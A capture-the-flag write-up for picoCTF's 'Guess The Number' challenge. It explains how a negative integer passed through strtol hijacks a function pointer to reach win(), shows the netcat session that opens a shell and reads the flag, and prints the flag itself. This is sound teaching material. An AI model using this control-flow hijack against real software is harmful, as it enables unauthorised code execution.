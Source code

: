 ## Guess The Number - 75

### Description

Just a simple number-guessing game. How hard could it be? [Binary](./guess_num) [Source](./guess_num.c). Connect on shell2017.picoctf.com:30919.

### Hint

  - What is the program doing with your input number?
  - strtol checks for overflow, but it does allow negative numbers...

### Write up

```c

uintptr_t val;
...
scanf("%32s", buf);
val = strtol(buf, NULL, 10);

printf("You entered %d. Let's see if it was right...\n", val);

val >>= 4;
((void (*)(void))val)();
```  

The program gets string from user, cast it to int, right shifts 4 bit, and use it as a function pointer.

So we want val be address of win(), which is `0x0804852b`

Before right shift, val have to be 0x804852b0 which is 2152223408 in decimal.

But in integer, it's actually -2142743888.


    $ nc localhost 30919
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    d1ec8d4078eac1112548c1a6a00cfe07

> d1ec8d4078eac1112548c1a6a00cfe07

